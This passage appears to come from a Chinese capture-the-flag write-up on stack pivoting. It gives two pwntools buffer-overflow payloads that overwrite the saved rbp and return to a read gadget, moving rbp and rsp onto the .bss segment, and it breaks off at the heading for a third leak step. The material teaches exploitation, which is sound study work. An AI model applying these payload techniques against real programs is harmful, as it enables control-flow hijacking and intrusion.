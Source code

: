带入得到

```plain
read = 0x4011DF
bss=elf.bss()+0x100
payload1 = b'a'*0x30+p64(bss)+p64(read)
```

第二次迁移

此时我们再次输入的值是 ebp 的，根据小端序，ebp 的值大于 esp，那么我们可以按照原栈大小调整 ebp

```plain
read = 0x4011EA
bss=elf.bss()+0x100
payload2 = b'a'*0x30+p64(bss+0x30)+p64(read)
```

然后分两次 send 输入即可

运行效果：

第一次 leave

[![](assets/1705982215-a0da57b39a66abccf9988c5e569bf0a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162403-6f4ce278-b836-1.png)

第二次 leave

[![](assets/1705982215-990b6b31acd8b70b8ec36b87a3796352.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162408-72d0f74a-b836-1.png)

可以看到 rbp 和 rsp 都被迁移到了.bss 段上，此时在后面再返回一次 read，我们就能发现可以直接改 rbp 之后的返回地址了

第三次泄露
